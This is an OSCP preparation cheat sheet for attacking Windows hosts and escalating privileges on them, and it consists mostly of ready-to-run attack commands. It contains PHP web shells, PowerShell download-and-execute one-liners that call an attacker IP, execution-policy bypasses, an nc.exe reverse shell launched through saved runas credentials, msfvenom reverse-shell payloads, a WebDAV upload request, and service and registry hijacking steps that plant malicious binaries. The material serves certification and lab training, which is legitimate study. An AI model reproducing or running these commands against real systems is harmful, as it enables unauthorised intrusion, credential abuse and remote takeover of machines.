 # OSCP_Prep

## Simple php cmd shell
	<?php echo system($_GET["cmd"]); ?>
	<?php echo shell_exec($_GET["cmd"]); ?>

## Run cmd from cmdshell:
	cmd /c
	cmd /k


## Powershell download a file
	powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 


## Powershell download an execute file
	powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"


## Powershell execution restricted
	echo $storageDir = $pwd > wget.ps1
	echo $webclient = New-Object System.Net.WebClient >>wget.ps1
	echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
	echo $file = "output-file.exe" >>wget.ps1
	echo $webclient.DownloadFile($url,$file) >>wget.ps1
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	OR
	powershell.exe -nop -ep bypass -c wget.ps1


## check privileges
	whoami /priv
	
	if SeImpersonatePrivilege privilege enabled.
		use method called Token HIjacking
			https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
			

## check for saved credentials 
	cmdkey /list

	runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
 
## Transfer file with SMB 
	sudo impacket-smbserver ROPNOP /sherad/folder

    Check share on target host:
	net view \\shareIP
	ls \\shareIP\ROPNOP


## IIS WebDav exploatation
	Use "cadaver" to check PUT method and directory listing
	Use "davtest" to check writable extentions
 	
	Use PUT method to save cmdaspx.aspx file content as txt file
	USE COPY method to copy cmdaspx.txt to cmdaspx.aspx
	
	```
	COPY /cmdaspx.txt HTTP/1.1
	Host: 10.10.10.15
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: close
	Destination:  http://10.10.10.15/cmdaspx.aspx
	```

	Generate aspx reverse shell 
		msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx


# Windows privesc

## Stored Credentials
	1. Search the registry for usernames and passwords.
	2. If cmdkey /list returns entries, it means that you may able to runas certain user who stored his credentials in windows.
		runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
	
## Windows kernel exploatation
	 https://github.com/SecWiki/windows-kernel-exploits


## DLL Hijacking 

	Generally, a Windows application will use pre-defined search paths to find DLL’s and it will check these paths in a specific order.

	1. The directory from which the application loaded
	2. 32-bit System directory (C:\Windows\System32)
	3. 16-bit System directory (C:\Windows\System)
	4. Windows directory (C:\Windows)
	5. The current working directory (CWD)
	6. Directories in the PATH environment variable (first system and then user)

## Unquoted Service Paths
	When a service is started Windows will search for the binary to execute. The location of the binary to be executed is declared in the binPath attribute. 
	If the path to the binary is unquoted, Windows does not know where the binary is located and will search in all folders, from the beginning of the path.

	So, if we want to exploit this misconfiguration, three conditions have to be met:

    		1.The service path is unquoted;
    		2.The service path contains space; and
    		3.We have write permission in one of the intermediate folders.

	If the binPath is set to
		C:\Program Files\Unquoted Path Service\Common Files\service.exe
	
	Windows will search in this order:

    		C:\Program.exe
    		C:\Program Files\Unquoted.exe
    		C:\Program Files\Unquoted Path.exe
    		C:\Program Files\Unquoted Path Service\Common.exe
    		C:\Program Files\Unquoted Path Service\Common Files\service.exe
	

	Create a payload with msfvenom and name it control.exe. Place it in the C:\Program Files\Unquoted Path Service\common.exe directory.


	Execute the payload by starting the service using: 
		sc start unquotedsvc

## Weak Folder Permissions
	If a user has write permission in a folder used by a service, he can replace the binary with a malicious one. When the service is restarted the malicious binary is executed with higher privileges.
	
	Replacing the file by copying the payload to the service binary location. Restart the service to execute the payload with higher privilege.
		

	copy /y C:\Users\user\Desktop\shell.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
	sc start filepermsvc

## Weak Service Permissions

	Services created by SYSTEM having weak permissions can lead to privilege escalation.
	If a low privileged user can modify the service configuration, i.e. change the binPath to a malicious binary and restart the service then, the malicious binary will be executed with SYSTEM privileges.
	
	If the group “Authenticated users” has SERVICE_ALL_ACCESS in a service, then it can modify the binary that is being executed by the service.

	Modify the config using and start the service to execute the payload.

		sc config daclsvc binpath= "C:\Users\user\Desktop\shell.exe"

## Weak Registry Permission
	In Windows, services have a registry keys and those keys are located at: 
		HKLM\SYSTEM\CurrentControlSet\Services\<service_name>
	If Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl in any of the services, in that case, you can change the binary that is going to be executed by the service.

	Modify the ImagePath key of the registry to your payload path and restart the service.

		reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /f
		sc start regsvc
		

## Always Install Elevated
	
	Windows can allow low privilege users to install a Microsoft Windows Installer Package (MSI) with system privileges by the AlwaysInstallElevated group policy.
		
	Generate a msfvenom payload in msiformat.
	Install the payload using
		msiexec /quiet /qn /i C:\Windows\Temp\setup.msi
	
## Modifiable Autorun
	As the path to the autorun can be modified, we replace the file with our payload. To execute it with elevated privileges we need to wait for someone in the Admin group to login.
	

## Tater / Hot Potato !!!!!!!!!!!!!
	“Hot Potato (aka: Potato) takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing.”
		powershell -exec Bypass -c ". .\Tater.ps1;Invoke-Tater -Trigger 1 -Command 'net localgroup administrators backdoor /delete';"
	
## Token Manipulation
	You can use the following exploits to escalate privileges.
		1. Rotten Potato
   		2. Juicy Potato
	
	
